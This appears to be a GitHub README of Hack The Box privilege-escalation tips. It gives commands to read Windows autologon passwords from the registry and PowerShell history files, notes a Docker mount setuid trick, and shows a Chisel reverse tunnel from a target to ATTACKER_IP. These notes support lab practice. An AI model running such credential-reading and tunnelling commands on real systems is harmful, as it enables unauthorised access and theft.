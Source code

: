 # HTB-tips

## Windows Privilege Escalation - Registry Autologon
Sometimes windows stores credentials in plaintext (DefaultDomainName, DefaultUserName,DefaultPassword)

EXAMPLE USAGE:
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```


## Windows Privilege Escalation - Powershell history file
Windows stores the powershell history in a file in the psreadlinefolder.(just like linux stores it under the .bash_history).
```
more C:\users\adam\appdata\roaming\microsoft\windows\powershell\psreadline\*.txt
```

## Linux Privilege Escalation - Dcoker Container Mounted files
A docker conatiner is mounted to a home directory. The docker connects the containers file system to the hosts file system -- live. So any changes in the host file system also affects in the docker and vice versa.If the we get root on the docker conatiner(by default we are root inside the docker) this can result in easy priv esc by setting up the setuid to a any binary.

## Linux Privilege Escalation - Port Forwarding using Chisel
Attacker Machine
```bash
chisel server -p ATTACKER_PORT --reverse
```
Target Machine
```bash
chisel client ATTACKER_IP:ATTACKER_PORT R:LOCAL_PORT:127.0.0.1:PORT_RUNNING_ON_TARGET_MACHINE
```
